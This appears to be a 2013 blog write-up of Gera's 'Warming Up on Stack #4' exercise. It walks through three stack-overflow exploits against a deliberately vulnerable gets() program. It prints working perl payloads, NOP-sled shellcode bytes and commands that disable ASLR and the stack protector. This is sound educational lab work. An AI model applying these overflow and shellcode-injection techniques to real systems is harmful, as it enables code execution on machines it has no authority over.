 Gera's Warming Up on Stack #4 - Solutions
==========================================
date: 04/Jan/2013
summary: Solutions for Gera's Warming up on Stack #4 program.
tags: exploit, mitigations, buffer overflow, writeups

Following is the part 4 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by [Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte) at his [Insecure Programming](http://community.corest.com/%7Egera/InsecureProgramming/) by example page.

This post follows the [Gera's Warming Up on Stack #3 - Solutions](https://7h3ram.github.io/posts/20130103_geras-wuos-stack3-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) program:

```c
/* stack4.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x000a0d00)
        printf("you win!\n");
}
```

The above program too accepts user-input through the `gets` function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it print the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1.  Since it is defined prior to buf, the `cookie` would be placed at a
    higher memory address on the program stack, just below the saved
    registers from the function prologue
2.  The `buf` character array would be at an offset of at least 80B from
    `cookie`
3.  The `gets` call would accept unbounded user-input within `buf` array
    and hence it provides a mechanism to alter the call stack contents

Stack layout for [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are solutions I could think of to get the `you win!` message printed:

-   Solution #1: Overflow the internal buf array to overwrite EIP with
    the address of `printf(you win!)`
-   Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode and
    overwrite EIP with its address
-   Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode
    through an environment var and overwrite EIP with its address

Unlike earlier programs, where Solution #1 suggested overflowing the character array to overwrite `cookie` with desired value, [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) coud not be exploited in that manner. This is beacuse the `cookie` has been initialized with 0x000a0d00 and if we inject this string, the newline character (0x0a) will cause the `gets` internal read to stop processing further characters, thereby breaking our exploit. As such we won't be using this technqiue but rather use alternate methods.

Here's a brief description of the test system:

```console
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

Solution #1: Overflow the internal buf array to overwrite EIP with the address of printf(you win!)
---------------------------------------------------------------------------------------------------

Here's the GCC commandline to prepare
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
for this solution:

```console
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack4 stack4.c
stack4.c: In function ‘main’:
stack4.c:9: warning: incompatible implicit declaration of built-in function ‘printf’
stack4.c:9: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack4.c:9: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccxoPw3D.o: In function `main':
stack4.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

We need to have a look at the assembly of
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
and find out the location of the `printf` function which displays the
`you win!` message:

```c-objdump
# objdump -d -M intel stack4 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 &lt;printf@plt&gt;
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 &lt;gets@plt&gt;
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 00 0d 0a 00          cmp    eax,0xa0d00
 8048477:   75 0c                   jne    8048485 &lt;main+0x41&gt;
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 &lt;puts@plt&gt;
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be 0x8048479. Let's try exploiting:

```console
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack4
buf: bfee4144 cookie: bfee4194
you win!
Segmentation fault
```

Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address
---------------------------------------------------------------------------------------------------

Let's first recompile [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) and request GCC to mark program stack as executable. Additionally, we also need to turn ASLR off so that we can have a static return address to overwrite EIP with:

```console
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack4 stack4.c 2>/dev/null ; readelf -l stack4 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Let's go ahead with exploitation. The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```console
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack4
buf: bffff4c4 cookie: bffff514
you win!#
```

Solution #3: Inject a NOP-prefixed printf(you win!) shellcode through an environment var overwrite EIP with its address
------------------------------------------------------------------------------------------------------------------------

Lets get straight to the exploitation:

```console
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack4
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack4
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) program through three different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.
